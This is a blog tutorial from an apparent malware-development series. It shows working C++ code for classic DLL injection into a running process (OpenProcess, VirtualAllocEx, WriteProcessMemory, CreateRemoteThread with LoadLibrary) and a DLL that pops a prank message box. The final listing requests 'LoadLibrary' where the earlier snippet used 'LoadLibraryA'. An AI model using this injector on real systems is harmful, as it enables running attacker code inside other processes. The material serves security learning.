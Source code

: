 Let’s make malware

This week, we will cover Classic DLL Injection. As the name suggests, instead of injecting shellcode into a process, we will be forcing a process to run a DLL of our choice. This technique will use many of the same Windows API functions we covered previously. We will introduce just three new ones. Those are GetProcAddress, GetModuleHandle, and LoadLibrary. Later in this series, we will see just how special those three calls are. But for now, let’s get started.

We will be using last week’s source code on Remote Process Injection and modifying it a bit. That codebase looked like this:

```cpp
#include “windows.h”
int main() {
//msfvenom Calc shellcode
unsigned char payload[] = {… don’t trust random shellcode blobs you find on the Internet … };
HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc, buffer, payload, sizeof payload, NULL);
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
WaitForSingleObject(tHandle, INFINITE);
return 0;
} 

```

The first thing we will change is our payload variable. We no longer need it. We will replace this with the following line:

```cpp
char myDLLPath[] = “C:\\Windows\\Temp\\myEvilDLL.dll”;
```

This new variable is what will be the absolute path of our malicious DLL. We can either create one using MSFVenom or, in keeping with the theme of this series, create our own DLL like so:

```cpp
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
switch(fdwReason) { 
case DLL_PROCESS_ATTACH:
            			break;
        		case DLL_THREAD_ATTACH:
            			break;
        		case DLL_THREAD_DETACH:
            			break;
        		case DLL_PROCESS_DETACH:
            			break;
    	}    
    	return TRUE;  
}
```

Of course, this is just our template. We still need to add a few things to make this code functional and ready to compile. Our complete DLL code will look like so:

```cpp
	#include “windows.h”
	void execute() {
	MessageBox(NULL, "Don’t call the cops bro. It’s just a prank bro.", "You’re already under my control", MB_OK);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
switch(fdwReason) { 
case DLL_PROCESS_ATTACH:
		execute();
            				break;
        			case DLL_THREAD_ATTACH:
            				break;
        			case DLL_THREAD_DETACH:
            				break;
        			case DLL_PROCESS_DETACH:
            				break;
    		}    
    		return TRUE;  
}
```

We will cross-compile this using MinGW with the following command: 

x86_64-w64-mingw32-gcc --shared -o myEvilDLL.dll myEvilDLL.cpp

Now, that we have our DLL, we can go back to our injector executable. 

The next line we will change is line 10. That is our call to VirtualAllocEx. We will change the fourth parameter to this:

```cpp
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

```

Before our buffer contained our shellcode, but now it contains the absolute path to our DLL.

Likewise for our call to WriteProcessMemory.

```cpp
WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
```

Next, we need to change line 12, our call to CreateRemoteThread. It will look like this:

```cpp
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle(“kernel32”), “LoadLibraryA”), buffer, 0, NULL);
```

To refresh, CreateRemoteThread is defined as such:

```cpp
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Before we provided our buffer variable as the argument to the lpStartAddress parameter and set lpParameter to 0 as we did not need it. This time, however, we use a combination of GetProcAddress and GetModuleHandle to find the memory address of a third API: LoadLibrary. 

Our buffer variable, which contains the absolute path of our malicious DLL, is then passed to LoadLibrary as an argument forcing the remote process to run it. 

GetProcAddress will find the memory address of a function, also known as a procedure, and returns it. It is defined like so:

```cpp
FARPROC GetProcAddress(
  [in] HMODULE hModule,
  [in] LPCSTR  lpProcName
);
```

The first parameter is a handle to a module. Or in other words, a DLL. This is where GetModuleHandle comes in.

The second parameter is the function (procedure) we are looking for. 

GetModuleHandle does as its name suggests: returns a handle to a module.

It is defined like so:

```cpp
HMODULE GetModuleHandleA(
  [in, optional] LPCSTR lpModuleName
);
```

Its only parameter is the module name we are looking for. Many of the functions we want to use as malware developers are in Kernel32.dll. It is a special DLL because Windows loads it into every process by default.

Finally, we have LoadLibrary. This should be self-explanatory as its purpose is to load a library (DLL).

It is defined like so:

```cpp
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```

Its parameter is also self-explanatory. It needs the file name of the DLL we want it to load. Simple!

And that’s everything we need. Our full injector code will look like this:

```cpp
#include “windows.h”
int main() {
char myDLLPath[] = “C:\\Windows\\Temp\\myEvilDLL.dll”;
HANDLE hProc = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_CREATE_THREAD, FALSE, 7492);
LPVOID buffer = VirtualAllocEx(hProc, 0, sizeof myDLLPath, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProc, buffer, myDLLPath, sizeof myDLLPath, NULL);
HANDLE tHandle = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE) GetProcAddress(GetModuleHandle(“kernel32”), “LoadLibrary”), buffer, 0, NULL);
WaitForSingleObject(tHandle, INFINITE);
return 0;
} 
```

One thing of note is that we need to change the last parameter in our call to OpenProcess to the PID of the process we want to inject into before compiling. We will keep things simple and use notepad again. 

Now, we need to transfer our malicious DLL onto a test machine to the Windows\Temp folder. Once we have that in place (and transferred our injector executable as well, of course), we can run our injector and watch the magic happen.

And there we have it! Our DLL attached to notepad and our message box popped up.

[Message Box](/assets/dll_injected_msgbox.png)

To verify this, we can use process hacker to look at the loaded modules (DLLs) of the target process.

[Verifying DLL attached](/assets/dll_injected.png)
